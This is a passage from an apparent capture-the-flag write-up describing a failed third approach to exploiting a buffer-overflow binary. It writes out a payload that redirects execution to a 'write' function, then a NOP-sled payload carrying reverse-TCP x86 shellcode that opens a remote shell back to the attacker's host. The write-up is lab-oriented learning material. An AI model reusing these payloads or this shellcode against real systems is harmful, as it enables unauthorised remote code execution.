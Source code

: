 However, when tried remotely, my disappointment was immeasurable, and my
day was ruined. I got the fake flag instead.

![Text Description automatically
generated](images/media/image20.png)

Approach 3: (Failed)

Illegally call the "write" function that allows us to inject a large
shellcode to achieve RCE. Using some of the intel got from approach 2, I
know that the offset of the 1^st^ buffer is 42. So next I determined the
function address of the address "write" which was located at 0x08048676.

![Graphical user interface, text Description automatically
generated](images/media/image21.png)

By doing so I crafted the below payload for the password field to call
the write function illegally without requiring the right password. From
the screenshot, we can see the message was added to message.txt without
the right password.

\$(python2 -c \"print \'A\'\*42 + \'\\x76\\x86\\x04\\x08\'\")

![Text Description automatically
generated](images/media/image22.png)

Next, I needed to determine the offset of the message field thus again
using Metasploit pattern_create and pattern_offset. Turns out it was 216

![Text Description automatically
generated](images/media/image23.png)

Next, I crafted my payload for the message input. I'll be using a
reverse TCP x86 bit shellcode
(<https://www.rcesecurity.com/2014/07/slae-shell-reverse-tcp-shellcode-linux-x86/>)
thus forming the following final payload

Used 40 bytes of padding and 102 bytes of NOP.

40 + 102 + 74 (shellcode length) = 216

The message payload without the appropriate address will look like this:

\$(python2 -c \'print \"\\x90\" \* 102 + \"
\\x6a\\x66\\x58\\x6a\\x01\\x5b\\x31\\xd2\\x52\\x53\\x6a\\x02\\x89\\xe1\\xcd\\x80\\x92\\xb0\\x66\\x68\\xc0\\xa8\\xb5\\x82\\x66\\x68\\x27\\x0f\\x43\\x66\\x53\\x89\\xe1\\x6a\\x10\\x51\\x52\\x89\\xe1\\x43\\xcd\\x80\\x6a\\x02\\x59\\x87\\xda\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\xb0\\x0b\\x41\\x89\\xca\\x52\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\xcd\\x80\"
+ \"A\"\*40 + \"BBBB\"\')

I next determined the return address using GDB and chose \\xffffcf44

![A screenshot of a computer Description automatically generated with
medium
confidence](images/media/image24.png)
